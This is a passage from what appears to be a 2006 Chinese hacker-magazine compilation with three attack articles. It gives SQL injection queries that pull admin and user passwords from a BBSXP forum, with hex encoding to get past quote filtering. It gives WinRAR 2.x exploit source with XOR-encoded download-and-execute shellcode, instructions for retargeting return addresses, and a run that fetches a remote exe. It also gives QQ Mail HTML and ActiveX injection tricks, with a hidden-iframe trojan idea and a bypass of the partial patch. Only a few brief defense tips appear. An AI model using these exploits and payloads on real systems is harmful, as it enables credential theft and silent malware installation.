好了，剩下中间一条语句可以自由发挥了，选出什么东西比较好呢，自然是用户名和对应用户名的密码，也许还有后台的密码，可惜也是加密过的。一个查询的例子是：

```
select top 200 * from forum where deltopic<>1 and
1=0 UNION
select 1,1,adminpassword,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from
[clubconfig] UNION
SELECT * FROM FORUM WHERE 1=0 AND TOPIC
LIKE '%wangmingliang%' order by lasttime desc
```

这个时候对应的SEARCHXM2的值(有点长)如下:

```
1=0 UNION select 1,1,adminpassword,1,1,1,1,1,1,1,1,1,1,1,
1,1,1,1,1,1 from [clubconfig] UNION SELECT * FROM
FORUM WHERE 1=0 AND TOPIC LIKE
```

正确提交可以在最后的“<script>ShowForum”部分看到后台的加密密码，这一点和《BBSXP 5.00最新漏洞》中说过的一样，就不再废话了。

有些时候我们要针对某些特定的用户来获得信息的话，怎么办呢？这时候《绕开单引号继续注入》文章中独创的方法就派上用场了，就是不用单引号来表示字符串，而是用“0x”开头的数字来描述。比如“where username = 'a'”就可以变成“where username = 0x6100”，没有单引号，但是达到了单引号的效果。网上有一个Swan闲着无聊的时候写的工具叫做SQLEncode，利用这个工具甚至可以直接获得汉字与字母混合后的表示，在你提交需要的编码后，直接拷贝得到的结果就可以了。查询某个人的密码的例子如下是：

```
select top 200 * from forum where deltopic<>1 and
1=0 UNION
select 1,1,userpass,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from [user]
where username=0x610064006d0069006e00 UNION
SELECT * FROM FORUM WHERE 1=0 AND TOPIC
LIKE '%wangmingliang%' order by lasttime desc
```

这是查询“a d m i n”用户的密码，这个地方“admin”被编码成了0x610064006d0069006e00，依然可以正常使用。对应的SEARCHXM2的值就是

```
1=0 UNION select 1,1,userpass,1,1,1,1,1,1,1,1,1,1,1,1,
1,1,1,1 from [user] where username=0x610064006d0069006e00
UNION SELECT * FROM FORUM WHERE 1=0 AND
TOPIC LIKE
```

到这里这个漏洞就结束了。利用的方法可以参看《绕开单引号继续注入》这篇文章，或者是编写自己的小工具。

如果对应的是MSSQL，利用的方法要简单很多，尽管有HTMLEncode函数的处理，还是可以比较容易地注入。比如在上面所说的过程中，只要把UNION去掉，中间的那个查询直接调用存储过程或许就能直接得到很高的控制权限。更简单的方法是直接写后台的密码和管理员的密码，这样整个论坛就在你的控制之中了，呵呵。

WTF：回首2004年，有太多值得让我们回味的漏洞：漏洞大户Serv-U的本地/远程溢出、Windows的IE层出不穷的漏洞、WinS服务的年终一地……如此多的漏洞，黑防都及时地讨论过具体的攻击/防护方法，可能已经让广大黑友们的肉鸡满天下了，也可能让看黑防的管理员们悠然自得：这么晚了还用这个攻击方法？黑防早几个月就讲过如何防护了！下文我们将要说是WinRAR的溢出漏洞，2004年12期的时候黑防曾非常简单地介绍过，但很多读者朋友来信反映希望详细介绍，于是就有了本文。RAR家喻户晓吧？它可是装机的必备软件，这个极品压缩程序的溢出漏洞听起来可是很吓人的！具体情况如何呢？请看下文：

适合读者：普通网民、入侵爱好者、网络管理员
前置知识：无

#### WinRAR解压缩
##### 解出大危险。

文/图 苏申皓(羽艺)



2005年正月初一的时候，一大早我就打开电脑，准备给兄弟们拜拜年，可系统的自动更新跳出了很多漏洞，一数竟然有9个(我系统是Windows 2003的)！微软也是给我们新年送来了见面礼呀，汗！打完补丁后闲着没事，家里人都去拜年去了，我翻着溢出包里的程序，在一个不起眼的地方看到了WinRAR的溢出，又是一份新年大礼，看来今年运气不错！

WinRAR压缩软件可是国内计算机的必备品，如果出了漏洞可不是非同小可！回想一下好像是原来下载的东西，只是一直没用。攻击程序针对Windows XP系统的SP1和SP2，而且还是英文系统的！源代码说明部分如图1所示。下面我们就来看看如何让这个漏洞发挥出它的威力吧！

```
* Usage:exploit <Target> <OutputPath> <Url>
* Targets:
* 1 - WinXP SP1 english user32.dll
* 2 - WinXP SP2 english user32.dll
```

图 1

##### 漏洞简述

这个溢出漏洞存在于GUI界面的Winrar.exe压缩软件里，DOS下的Rar.exe不存在这个漏洞。用户如果用GUI界面的Winrar.exe来解压被恶意修改过的*.rar文件则会导致溢出。其实这个漏洞早在2003年就出来了，可就是一直没有溢出程序发放出来，想必也是由于危害太大，怕引起网络混乱而推迟发布。

##### 漏洞影响版本和系统

受影响的版本信息：
WinRAR 2.90以及以前的任何版本（包括任何语言）。

受影响的系统信息：

- Microsoft Windows 95
- Microsoft Windows 98
- Microsoft Windows Me
- Microsoft Windows NT 4.0
- Microsoft Windows 2000
- Microsoft Windows XP
- Microsoft Windows 2003

##### 应用分析

看看它的受影响系统列表，包含了几乎所有常用的Windows系统，够可怕吧？可是攻击程序只提供对英文的溢出，我们国内的普通用户有几个人闲得没事用英文版的系统呀？不行！我要改变这个情况！不过我的2003系统安装的是WinRAR 3.42的版本，不符合要求，打开虚拟机运行Windows XP SP1，里面的WinRAR的版本是2.90 的中文版，够贴近中国人的心了吧？呵呵。

先看看溢出程序主要的源代码 Winrar_2_x_exploit.cpp

```c
/*crafted rar header*/
char winrar_header[] =
"\x52\x61\x72\x21\x1A\x07\x00\xCF\x90\x73\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x4A\x91\x74\x80\x80\x35\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x12";

/*Generic win32 http download shellcode xored with 0x1d by delikon*/
char shellcode[] = "\xEB"
"\x10\x58\x31\xC9\x66\x81\xE9\x22\xFF\x80\x30\x1D\x40\xE2\xFA\xEB\x05\xEB\xEB\xFF"
"\xFF\xFF\x2A\xD1\x1D\x1D\x1D\x2F\x5B\x4B\x1D\x1D\x1D\x94\xDE\x4D\x75\x93\x53\x13"
"\x1F\x5D\x1D\x1D\x1D\x2C\x4D\x7B\xA4\x72\x73\x4C\x75\x68\x6F\x71\x70\x49\xE2"
"\xCD\x4D\x75\x2B\xD7\x32\x6D\x5B\x1D\x1D\x1D\x2C\x4C\x4C\x90\x2A\x4B\x90"
"\x6A\x15\x4D\x4C\xE2\xD7\x4D\x75\x85\xE3\x97\x13\xE5\x30\x1D\x1D\x4C\x4A\x32"
"\xCD\x2C\xD4\x54\x1F\xE3\x4F\x75\x63\xC5\x1F\xE5\x5D\x04\x1D\x1D\x1D\xE2\xCD\x48"
"\x4B\x79\xBC\x2D\x1D\x1D\x1D\x96\x5D\x11\x96\x6D\x01\xB0\x96\x75\x15\x94\xF5\x43"
"\x40\xDE\x4E\x48\x4B\x4A\x96\x71\x39\x05\x96\x58\x21\x96\x49\x18\x65\x1C\xF7\x96"
"\x5F\x96\x47\x3D\x1C\xF6\xFE\x28\x54\x96\x29\x96\x1C\xF3\x2C\xB2\xE1\x2C\xDD"
"\xB1\x25\xFD\x69\x1A\xDC\xD2\x10\xC1\xDA\xF6\xEB\x26\x61\x39\x69\x68\xFC\x96\x47"
"\x39\x1C\xF6\x7B\x96\x11\x56\x96\x47\x01\x1C\xF6\x96\x19\x96\x1C\xF5\xF4\x1F\x1D"
"\x1D\x1D\x2C\xD0\x94\x7F\x42\x43\x40\x46\xDE\xF5\x32\xE2\xE2\xE2\x70\x75\x75\x33"
"\x78\x65\x78\x1D";
char *target[]=   //return addr
{
  "\xFC\x18\xD4\x77",      //User32 jmp esp addr WinXp Sp1
  "\xA0\xAF\xD8\x77"       //User32 jmp esp addr WinXp Sp2
};
```

Shellcode是溢出后自动下载并运行的方式，够隐蔽，正合我意！不过大家注意看下面的两行jmp esp返回地址了吗？

```
"\xFC\x18\xD4\x77",      //User32 jmp esp addr WinXp Sp1
"\xA0\xAF\xD8\x77"       //User32 jmp esp addr WinXp Sp2
```

可惜提供的是Windows XP SP1和XP2的地址，但是只要我们在不同的系统里找到user32.dll这个文件的jmp esp返回地址，就能使溢出代码正确执行并达到我们预期的效果！

快请出Sunx写的查找jmp esp返回地址的工具jmpeps.exe，如图2所示。


这个工具不仅能查jmp esp地址，而且能查jmp ebx返回地址，有了这东东省去了我们用跟踪软件再去跟踪确定返回地址的时间。我们输入“jmpeps.exe 1 user32.dll”得到返回信息（环境是Windows XP SP1），如图3所示。

图 2

哇！出来一大片。再看看我在Windows 2000 Server下的截图，如图4所示。从图中可以看到Windows 2000下user32.dll的jmp esp返回地址才一个，而且我在同系统下不同计算机里的返回地址又不一样，有的是两个，所


图 3

栏目编辑:wt@hacker.com.cn

黑客防线 www.hacker.com.cn 2006精华奉献本 下册

### FIRST EXPLOIT


以2000系统下想编写通用溢出程序估计会很难。

回到XP系统，我们随便选取一个图3中“0x77d785fb [JMP ESP]”前面的返回地址，并改写攻击代码！大家看看我修改后的截图，如图5所示。



OK！修改完成，保存并编辑成可执行文件。

#### 战斗打响

我们打开CMD窗口，运行刚刚编辑好的EXE程序，如图6所示。


我已经输入了命令“Winrar_2_x_exploit.exe 1 yuyi.rar http://yuyi1985.8866.org/hack/yuyi.exe”，程序运行后提示说已经成功生成文件名为yuyi.rar的压缩文件，生成的文件大小为1.44KB，如图7所示。



怎么看都是一个再正常不过的压缩文件吧？而且杀毒软件都不会提示这个是病毒（来点掌声，谢谢！），以前的JPG、EMF图片漏洞，生成的溢出程序都会被提示说是病毒，我们将它传到服务器上（如图8所示）。我们继续测试，激动的时刻即将到来 我们用Winrar.exe打开这个压缩文件……哈哈！溢出成功！自动完成了我们预定要下载并执行的程序！如图9所示。

看，我自己写的一个测试运行的小程序已经运行了（注意，成功溢出后自动下载运行的程序会放在同目录下，文件名为mhh.exe），如果换成是木马呢？换成是自动删除自身的木马呢？那太可怕了吧？！


#### 防范总结

虽然这个漏洞现在已经渐渐离我们远去，除非你还是在用3.00版本以下的WinRAR，赶快换掉吧！但是经过有心的人合理欺骗和构造，相信一定能发挥出它独特的魅力！

文中主要是教大家修改源代码的jmp esp返回地址，因为现在太多人都是等别人把程序编译好了再拿来用，而且不懂得保存源代码，现在明白开放源代码的重要了吧？如图10所示。



还有一点就是大家可以用Jmpesp.exe在同一类型的系统或不同的系统中多测试几台电脑，找出相同的返回地址，并修改成通用的溢出程序，达到更好的攻击效果。因为本人电脑有限，所以就没写出通用的溢出程序，这个就留给大家去做吧！

WTF: 最近不知道天上刮的是什么风,以往难得一见的MM黑客爱好者突然多了起来,而且很多MM还直接给我们发来了稿件! 用脚本小子的话说:“熬过一村又一村,总枯木又逢春”。更多MM的加入,代表黑客技术正在走向一个更好的局面,也代表越来越多的人开始认同这一点。本期推出的首发漏洞就是几个威力非常大的Qmail的漏洞,看来Qmail又将一次震荡了(PS:此MM已明花有主,GG们请另觅)!

适合读者:入侵爱好者、Q族、系统分析员

前置知识:无

#### QQ Mail 漏洞曝光

文/图 ypig

> 唉,真郁闷,那死小子好久没理我了,会不会又有新女朋友了吧? 呜,我该怎么办? 一个人在wzmc天天与死人玩,没劲! 给他发个木马吧,我可以监控他,可是他会打开吗? 用exe捆绑机? 好无聊。除非他是真的爱我(遐想中,呵呵,女生常做的)。啊! 谁打我,是WTF,还是老师? 人家不过上解剖课走神嘛,干吗这么重啊,好痛呢!

记得黑防上好像有什么打造免杀木马的文章,我也做一个。呵呵,肯定有效。他的防火墙是金山,我也装一个。然后按文章的方法做一个先……好了,运行后什么反应都没了,反向连接,哈哈,成功了! 但是怎么给他呢,附件? 黑防上的QQ杀鸡就有这么一招。唉,不好玩怎么办啊? 对了,在邮件中藏入马马不是很好吗? xyzreg GG 在去年的杂志上说了《暴风雨的先驱》,也就是邮件系统的漏洞。好的,我来试试,不知道可爱的QQ有没有这个漏洞。

首先我们来看看怎么才能在QQ中发HTML型的邮件,QQ的HTML功能好狡猾,有一个按钮,如图1所示,按一下会发出“警告”! 如图2所示。




好了现在是HTML格式了,以下所有的操作均是在这种模式下进行的,注意,ypig只说一次,后面不说了啊!

##### 漏洞测试

###### 1.iframe没过滤漏洞

```html
<iframe src=http://www.163.com/ width='200' height='100'></iframe>
```

发送给自己,收到了,有广告跳出,如图3所示。这说明了什么呢? 说明里面的Script执行了。如果再加上我们的自己的代码,把上面的代码修改成“src='你的网页地址'”和“width='0' height='0'”,你知道会有什么后果吗? 我们是不是可以直接在没打补丁的机器上种木马呢?


###### 2.body onload漏洞

```html
<body onload=window.location='http://www.163.com'> </body>
```

效果如图4所示。还是那样,我的电脑装了上网助手,但是还是看到了广告,也就是说有些防护软件会忽略QQ中的东西,我们的QQ就能在系统中“畅通无阻”了。

###### 3.利用meta

```html
<meta http-equiv='refresh' content='0;url=http://www.sina.com'>
```

效果一样的。

###### 4.利用QQ的<object>、<meta>没过滤漏洞

用这个我们可以使用好多的ActiveX控件，我自己找到的，嘿嘿……而且诺顿的网页防护功能没起作用。

（1）嵌入flash(如图5所示)


```html
<OBJECT id=movie codeBase=http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=7,0,0,0
height=300 width=400 align=middle classid=clsid:d27cdb6e-ae6d-11cf-96b8-444553540000>
<PARAM NAME="movie" VALUE="http://cccardfile.tencent.com/flash/zf/01/zf0102.swf">
<PARAM NAME="quality" VALUE="high">
<PARAM NAME="scale" VALUE="exactfit">
<embed src="about:blank" quality="high"
pluginspage="http://www.macromedia.com/shockwave/download/index.cgi?P1_Prod_Version=ShockwaveFlash"
type="application/x-shockwave-flash" width="550" height="400"> </embed>
</OBJECT>
```

呵呵,你注意到了吗？这可以用作Flash跨站脚本攻击。

（2）Realone Player（如图6所示）

```html
<embed name="rplayer" type="audio/x-pn-realaudio-plugin" src="http://www2.music9999.com/w/zhangshaohan/008.rm"
controls="ControlPanel,StatusBar" width=460 height=68 border=0 autostart=true loop=true>
</embed>
```

这个不太灵敏，容易没响应。

（3）media Player（如图7所示）




```html
<object id="mplayer" width="460" height="68" classid="CLSID:22d6f312-b0f6-11d0-94ab-0080c74c7e95"
codebase="http://activex.microsoft.com/activex/controls/mplayer/en/nsmp2inf.cab#Version=6,4,5,715"
align="baseline" border="0" standby="Loading Microsoft Windows Media Player components..."
type="application/x-oleobject">
<param name="FileName" value="http://beacon520.gol.icpcn.com/home.files/songfile/songs/18.wma">
<param name="ShowControls" value="1">
<param name="ShowPositionControls" value="0">
<param name="ShowAudioControls" value="1">
<param name="ShowTracker" value="1">
<param name="ShowDisplay" value="0">
<param name="ShowStatusBar" value="1">
<param name="AutoSize" value="0">
<param name="ShowGotoBar" value="0">
<param name="ShowCaptioning" value="0">
<param name="AutoStart" value="1">
<param name="PlayCount" value="0">
<param name="AnimationAtStart" value="0">
<param name="TransparentAtStart" value="0">
<param name="AllowScan" value="0">
<param name="EnableContextMenu" value="1">
<param name="ClickToPlay" value="0">
<param name="InvokeURLs" value="1">
<param name="DefaultFrame" value="datawindow">
<embed src="http://beacon520.gol.icpcn.com/home.files/songfile/songs/18.wma" align="baseline" border="0" width="460" height="68"
type="application/x-mplayer2"
pluginspage="http://www.microsoft.com/isapi/redir.dll?prd=windows&sbp=mediaplayer&ar=media&sba=plugin&"
</embed>
</object>
```

www.hacker.com.cn
2006 精华奉献本 下册

}栏目编辑/wtf.wtf@hacker.com.cn

```html
sba=plugin&amp;
name="MediaPlayer" showcontrols="1"
showpositioncontrols="0"
showaudiocontrols="1" showtracker="1"
showdisplay="0"
showstatusbar="1"
autosize="0"
showgotobar="0" showcaptioning="0" autostart="1"
autorewind="0"
animationatstart="0" transparentatstart="0" allowscan="1"
enablecontextmenu="1" clicktoplay="0" invokeurls="1"
defaultframe="datawindow">
</embed>
</object>
(4)Quick Time
<OBJECT CLASSID="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" WIDTH="160"HEIGHT="144"
CODEBASE="http://www.apple.com/qtactivex/qtplugin.cab">
<PARAM name="SRC" VALUE="sample.mov">
<PARAM name="AUTOPLAY" VALUE="true">
<PARAM name="CONTROLLER" VALUE="false">
<EMBED SRC="sample.mov" WIDTH="160" HEIGHT="144"
AUTOPLAY="true" CONTROLLER="false"
PLUGINSPAGE="http://www.apple.com/quicktime/download/">
</EMBED>
</OBJECT>
```

Ypig比较懒，我懒得找实例了，不过上面的语句没被Qmail过滤掉一个字符，而且在QQ的Mail中能看到Quick的播放的界面。其他的语句你别告诉我你不知道怎么用？！

> 发稿时发现腾讯公司做了一定的修补，但是还是可以插入代码。现在直接发送的东西将被显示出源代码，而起不到HTML的作用。需要在所有的例子代码前面和后面都加上一个<html><body>，格式是“<html><body>(插入原来的代码)</body></html>”，这样就能绕过了。

##### 5.QQ 的安全测试

经过几个试验，其它的ActiveX控件在QQ的邮件中也是可以使用的。可以说我们的Qmail对<object>，<embed>标签没做任何的过滤，而且还被防火墙忽略。如图8所示。



据测试，在TM及QQ的最新版本中还是存在这样的漏洞，可以说对QQ通杀，还有在QQ的Web信箱中照样也存在这样的漏洞。同时，我们可以在QQ中放入其它的东西，发现诺顿对此不理睬，相当危险啊！
哈哈，有上面的测试，我可以选一种方法了，当然是最简单的方法了（我们女生总是挑最容易的，最好吃的嘛……呵呵）。可是，我又不想监视他了，如果我没有他最起码的信任，我是爱他的吗？（WTF：咳咳，严重同意！！！）

#### 防 护

目前QQ还没有补丁，我们最好不要用QQ的邮件。如果要用请按照以下设置。
首先打开QQ的邮件主界面再选择菜单栏中的“工具”－>“邮件过滤规则”（如图9、图10所示），再在中选“新建”，新建两个规则。




- 1.“非QQ邮件，直接删除”。
- 2.“非地址薄中用户发来的邮件，直接删除”，但是不要忘了在QQ邮件的地址薄中加入你信任的人。
- 3.注意打好系统的补丁，尤其是IE的漏洞。

这些漏洞可能早就被人发现，连Ypig都自己找到了。发布出来是因为QQ是我们大家普遍使用的聊天工具，而且每次打开QQ的时候，你会对邮件提示视而不见吗？更坏的是任何人都可以向我们发邮件，甚至其它的邮件系统。一个不起眼的邮件、没有打开附件，我们都会认为是安全的，但事实不是，隐患由此而生。

真希望腾讯公司再打补丁的时候，加强一下QQMail的功能，MM们好希望看到酷一点的邮件，不是简单的只能用MIDI型的背景音乐。GG们，你们的好好希望看到有一点新奇的邮件的，给她一个惊喜吧，不过别使坏哦！

本MM可以保证每个例子都试过，不知道是否有错误，因为我也是菜虫一只。如果广大哥哥姐姐发现了错误，欢迎通知我（黑防论坛ID：Ypig）。请不要非法利用该漏洞，否则，后果自负，与本MM无关。 ////

